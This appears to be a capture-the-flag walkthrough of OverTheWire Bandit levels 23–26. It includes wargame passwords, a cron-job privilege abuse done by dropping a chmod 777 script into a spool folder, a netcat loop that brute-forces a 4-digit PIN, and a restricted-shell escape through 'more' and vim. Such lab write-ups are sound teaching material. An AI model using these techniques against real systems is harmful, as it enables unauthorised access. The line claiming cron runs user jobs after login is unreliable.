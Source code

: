 A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

- cron supposed to run jobs of each user after they log in, i take advantage of the fact that a script is going to run

```sh
cd /etc/cron.d/
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir -p /tmp/test && cd /tmp/test
# create a shell script and make it so anyone can run it
vim script.sh
chmod 777 script.sh
cp script.sh /var/spool/bandit24/foo/
cat /tmp/result
```
**username:** bandit24
**password:** VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

---

## bandit 24 → 25
http://overthewire.org/wargames/bandit/bandit25.html

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

```sh
for i in {0000..9999}
do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | netcat localhost 30002
```
**username:** bandit25
**password:** p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

---

## bandit 25 → 26
http://overthewire.org/wargames/bandit/bandit26.html

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

`more` is a shell command that allows the display of files in an interactive mode. Specifically, this interactive mode only works when the content of the file is too large to fully be displayed in the terminal window. One command that is allowed in the interactive mode is `v`. This command will open the file in the editor `vim`.
